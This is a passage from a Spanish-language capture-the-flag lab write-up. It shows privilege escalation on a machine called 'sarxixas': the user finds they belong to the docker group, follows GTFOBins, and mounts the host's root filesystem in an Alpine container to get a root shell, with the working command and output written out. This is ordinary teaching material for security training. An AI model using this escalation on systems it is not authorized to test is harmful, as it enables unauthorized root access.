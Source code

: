 <br>

<h2 id="DockerPrivesc">Escalando Privilegios Abusando del Grupo Docker para Crear una Montura de la Máquina Víctima</h2>

Revisando los privilegios de nuestro usuario, no tendremos ninguno y es más, parece que no existe el **comando sudo**:
```bash
sarxixa@sarxixas:~$ sudo -l
bash: sudo: orden no encontrada
```

Pero, si revisamos a qué grupos pertenecemos, encontraremos que estamos dentro del grupo de **Docker**:
```bash
sarxixa@sarxixas:~$ id
uid=1000(sarxixa) gid=1002(sarxixa) grupos=1002(sarxixa),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),100(users),106(netdev),1001(docker)
```
Esto nos permite ejecutar **Docker** como si fuéramos **Root**.

Y tenemos una forma de aprovecharnos de esto en la guía de **GTFOBins**:
* <a href="https://gtfobins.github.io/gtfobins/docker/" target="_blank">GTFOBins: docker</a>

<p align="center">
<img src="/assets/images/THL-writeup-sarxixas/Captura9.png">
</p>

Esto hará que podamos crear una montura completa de la máquina víctima dentro de un contenedor, lo que nos daría acceso a todos los archivos.

Hagámoslo:
```bash
sarxixa@sarxixas:~$ docker run -v /:/mnt --rm -it alpine chroot /mnt sh
Unable to find image 'alpine:latest' locally
latest: Pulling from library/alpine
f18232174bc9: Pull complete 
Digest: sha256:a8560b36e8b8210634f77d9f7f9efd7ffa463e380b75e2e74aff4511df3ef88c
Status: Downloaded newer image for alpine:latest
# whoami
root
```
Funcionó y automáticamente nos mete en el contenedor que acabamos de crear.

